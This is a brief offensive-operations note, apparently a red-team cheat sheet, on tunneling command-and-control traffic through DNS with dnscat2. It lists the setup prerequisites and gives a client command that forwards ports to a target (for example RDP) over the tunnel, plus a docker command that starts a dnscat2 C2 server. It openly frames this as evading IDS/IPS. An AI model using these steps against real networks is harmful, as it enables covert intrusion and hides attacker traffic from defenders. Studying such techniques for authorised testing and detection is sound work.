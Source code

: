 ```yaml
---
title: DNS tunneling
tags:
  - breach
  - operations
  - dns
  - tunneling
  - bypass
  - ids
  - ips
---
```


Smuggling traffic through DNS is genuinely cool. The tunneling of malicious
traffic through DNS is tough tto track, and most networks don't have the
security features enable to prevent a sophisticated actor from smuggling their
C2 traffic via DNS.

Some prerequisites for DNS tunneling? We need a valid DNS server and an NS
record that points DNS requests to our C2 host. Once that's done, we can use
tools like [dnscat2](https://github.com/iagox86/dnscat2)to command and control
implants.

To establish a tunnel through a **dnscat2** implant and session, we can invoke
the following:

```bash
command (client) 1> listen ${LHOST}:${LPORT} ${RHOST}:${RPORT}
```

With this DNS tunnel established, we can do interesting things like establish an
RDP session with the target at `${RHOST}:${RPORT}` over DNS - and all of the
traffic is encrypted!

dnscat2 has some troubles running on baremetal hosts - I recommend using
[this docker image](https://hub.docker.com/r/arno0x0x/dnscat2/). Invoke the
container, enabling it to use your host's network stack, with the following:

```bash
sudo docker run --rm -ti --privileged --network host -e DOMAIN_NAME="${YOUR_DOMAIN}" --name dnscat2 arno0x0x/dnscat2
```

